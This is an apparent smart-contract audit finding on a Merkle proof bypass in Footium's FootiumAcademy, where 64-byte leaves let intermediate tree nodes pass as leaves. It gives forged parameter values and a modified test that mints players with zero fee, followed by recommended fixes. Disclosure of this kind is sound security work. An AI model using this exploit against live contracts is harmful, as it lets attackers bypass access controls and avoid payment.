 GimelSec

high

# The leaf value of `clubDivsMerkleTree` should not be exactly 64 bytes long prior to hashing

## Summary

When using [MerkleProofUpgradeable.sol](https://github.com/OpenZeppelin/openzeppelin-contracts-upgradeable/blob/master/contracts/utils/cryptography/MerkleProofUpgradeable.sol), it should avoid using leaf values that are 64 bytes long prior to hashing. However `clubDivsMerkleTree` in `FootiumAcademy` uses leaf values that are exactly 64 bytes long. Therefore, the attacker can bypass the merkle-tree proof to mint players without any fees.


## Vulnerability Detail


The leaf value in `FootiumAcademy._validateMintingParams` are exactly 64 bytes long (uint256 + uint256 = 32 bytes + 32 bytes = 64 bytes).
https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumAcademy.sol#L236
```solidity
    function _validateMintingParams(
        SeasonID seasonId,
        uint256 clubId,
        uint256 divisionTier,
        uint256[] calldata generationIds,
        bytes32[] calldata divisionProof
    ) private returns (uint256) {
        if (
            !MerkleProofUpgradeable.verify(
                divisionProof,
                _clubDivsMerkleRoot,
                keccak256(abi.encodePacked(clubId, divisionTier))
            )
        ) {
            revert ClubNotInDivision(clubId, divisionTier);
        }

        …
    }
```
The merkle-tree proof could be bypassed when the leaf values are 64 bytes long. The following links can help you understand the details.

https://github.com/OpenZeppelin/openzeppelin-contracts/issues/3091
https://blog.openzeppelin.com/zksync-layer-1-audit/#merkle-library-verifies-intermediate-inputs

Then, I’m going to demonstrate the attack. First, let’s take a look of `clubDivsTree` used in 
`test/FootiumAcademy.test.ts`.
```solidity
// console.log(clubDivsTree.toString());
└─ 786607743ff3568994e9f95849e301e639f26affc150c67cac91d960a1b38f1e
   ├─ c3704a5a191242982921a7ba6018356d1c4f36cef3447b1596763d1b05a11efe
   │  ├─ 9d86f1aa5e133c814f034cd91e7ff67704f816bba73a2d5cfd0e48c8c3f9f2ad
   │  │  ├─ cc69885fda6bcc1a4ace058b4a62bf5e179ea78fd58a1ccd71c22cc9b688792f
   │  │  └─ 679795a0195a1b76cdebb7c51d74e058aee92919b8c3389af86ef24535e8a28c
   │  └─ 56176d99dd782b5af4a770f31b01589fdcf57380ec72f9ddf7d69d14eeb244e9
   │     ├─ cbc4e5fb02c3d1de23a9f1e014b4d2ee5aeaea9505df5e855c9210bf472495af
   │     └─ beb3bad75134cb432e5707980e3245c52c5998a1125ee30f2f0dbf3925b1e551
   └─ 7925decdce96e418fd327c5582e72db17cdbd59e17de4be4eae814a68cf94e50
      ├─ 3df150b781c94b7748fc28af8a490c145176121e25f0c70039f6374a31d955ae
      │  ├─ 29a15b4128bed86920d8d75ce6a7a845aa25ce798f5ce1c8595abd2c96c2672c
      │  └─ f416400a389b2271c5c6051273e6b62961b6906215e5f4d9099a99323151c03f
      └─ 720738d2d0bf8f6327d69ac76acdf464a1aeb2f446047b663d4f5587e05f2ea9
         ├─ 2918d3e53c8e0bf317edd7ae8c62fe39545d7d602785947d3a700ce4c956b1b6
         └─ c9961bec5c0945c554fdf349b16a41477787cac10e8de0ce169c28260f6dd05a

//cat footium-eth-shareable\scripts\clubDivsMetadata.json
[
    [1, 1],
    [2, 2],
    [3, 3],
    [7, 4],
    [120, 5],
    [1000, 6],
    [3000, 7],
    [2070, 8]
]
```
The normal leaf value is `keccak256(abi.encodePacked(clubId, divisionTier))`. And the params of `MerkleProofUpgradeable.verify` is
```solidity
// use [7, 4] as the example
clubId = 7
divisionTier = 4
divisionProof = [
  '0xcbc4e5fb02c3d1de23a9f1e014b4d2ee5aeaea9505df5e855c9210bf472495af',
  '0x9d86f1aa5e133c814f034cd91e7ff67704f816bba73a2d5cfd0e48c8c3f9f2ad',
  '0x7925decdce96e418fd327c5582e72db17cdbd59e17de4be4eae814a68cf94e50'
]
_clubDivsMerkleRoot = '0x786607743ff3568994e9f95849e301e639f26affc150c67cac91d960a1b38f1e'
```

Then, the verification process is:
```solidity
    function verify(bytes32[] memory proof, bytes32 root, bytes32 leaf) internal pure returns (bool) {
        return processProof(proof, leaf) == root;
    }
    
    function processProof(bytes32[] memory proof, bytes32 leaf) internal pure returns (bytes32) {
        bytes32 computedHash = leaf;
        for (uint256 i = 0; i < proof.length; i++) {
            computedHash = _hashPair(computedHash, proof[i]);
        }
        return computedHash;
    }

// _clubDivsMerkleRoot  == _hashPair(_hashPair(_hashPair(keccak256(abi.encodePacked(clubId, divisionTier)), divisionProof[0]), divisionProof[1]), divisionProof[2])
```
The proof can be cheated by using the intermediate value as the leaf value. We can use the following param to bypass the verification.
```soliditiy
clubId = 0x3df150b781c94b7748fc28af8a490c145176121e25f0c70039f6374a31d955ae
divisionTier = 0x720738d2d0bf8f6327d69ac76acdf464a1aeb2f446047b663d4f5587e05f2ea9
divisionProof = [
  '0xc3704a5a191242982921a7ba6018356d1c4f36cef3447b1596763d1b05a11efe',
]
_clubDivsMerkleRoot = '0x786607743ff3568994e9f95849e301e639f26affc150c67cac91d960a1b38f1e'

// The verification process
keccak256(abi.encodePacked(clubId, divisionTier)) = 0x7925decdce96e418fd327c5582e72db17cdbd59e17de4be4eae814a68cf94e50
_hashPair('0x7925decdce96e418fd327c5582e72db17cdbd59e17de4be4eae814a68cf94e50', '0xc3704a5a191242982921a7ba6018356d1c4f36cef3447b1596763d1b05a11efe’) = '0x786607743ff3568994e9f95849e301e639f26affc150c67cac91d960a1b38f1e'
```

I also modified `test/FootiumAcademy.test.ts` to demonstrate the attack.
```solidity
    before(async () => {
        …

        await clubs.safeMint(addr1.address, 1);
        await clubs.safeMint(addr1.address, 7);
        
        const forgedClubId = ethers.BigNumber.from("0x3df150b781c94b7748fc28af8a490c145176121e25f0c70039f6374a31d955ae")
        await clubs.safeMint(addr1.address, forgedClubId); // 

        …
    });

…

        it("can bypass merkle-tree proof to mint players without any fee", async () => {
            const forgedClubId = ethers.BigNumber.from("0x3df150b781c94b7748fc28af8a490c145176121e25f0c70039f6374a31d955ae")
            const forgedTier = ethers.BigNumber.from("0x720738d2d0bf8f6327d69ac76acdf464a1aeb2f446047b663d4f5587e05f2ea9")
            const forgedClubDivProof = [ "0xc3704a5a191242982921a7ba6018356d1c4f36cef3447b1596763d1b05a11efe"]
            await expect(
                academy.connect(addr1).mintPlayers(1, forgedClubId, forgedTier, [0,1,2,3,4,5], forgedClubDivProof, {
                    value: 0,
                })
            ).to.not.reverted;
        });
```

In conclusion, the merkle-tree proof could be bypassed, and the forged division tier usually doesn’t have any fee.  The attacker can mint players without any fees 

## Impact

The attacker can bypass the proof then mint players in `FootiumAcademy`. And it won’t cost any fee. The only condition is that the attacker needs to own the forged clubId.

## Code Snippet

https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumAcademy.sol#L236

## Tool used

Manual Review

## Recommendation

There are two methods to mitigate this issue.
First, don’t use leaf values that are 64 bytes long. Add more elements like `FootiumAcademy` address into the leaf.
Second, use [@openzeppelin/merkle-tree](https://github.com/OpenZeppelin/merkle-tree) instead. It double-hash the leaf value. And modified the leaf computation in the code.
```solidity
use
keccak256(bytes.concat(keccak256(abi.encode(clubId, divisionTier))))
instead of
keccak256(abi.encodePacked(clubId, divisionTier))
```
